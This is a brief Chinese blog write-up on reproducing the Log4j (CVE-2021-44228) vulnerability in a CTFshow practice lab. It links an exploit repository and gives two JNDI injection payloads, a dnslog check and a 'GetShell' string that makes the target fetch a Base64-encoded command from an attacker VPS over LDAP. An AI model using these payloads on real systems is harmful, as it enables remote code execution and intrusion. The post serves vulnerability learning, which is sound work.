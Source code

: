 ```yaml
---
title: "[漏洞复现]Log4j(CVE-2021-44228) 简单复现"
desc: TonyD0g
toc: true
date: 2022-04-26 15:10:40
tags: 漏洞复现
---
```

<font size=4 >

<!-- more -->

# 前言:
2021年12月份爆出的漏洞，但是因为是java组件我了解的不多所以一直没有去复现。
前些天hvv面试问了，直接答的没复现。我感觉这样啥都不懂是不行的，所以今天抽空看了下复现。
`仅仅复现了，具体代码原理不清楚`。主要靠别的师傅博客进行学习。

# 复现过程：

给的两张图讲的很明白：
[log4j](https://blog.csdn.net/hiahiaQ_Q/article/details/123720995)

[EXP](https://github.com/Yihsiwei/Log4j-exp)

# 所需条件：

CTFshow靶场 , 一台VPS

[Base64在线](https://www.ltool.net/base64-encode-and-decode-in-simplified-chinese.php)

[Url编码](https://www.bejson.com/enc/urlencode/)

[dnslog](http://www.dnslog.cn/)

# 验证playload:
${jndi:ldap://TonyD0g.dnslog.cn}

# GetShell playload:
${jndi:ldap://VPSIP:1389/Basic/Command/Base64/xxxxxxxxx}


</font>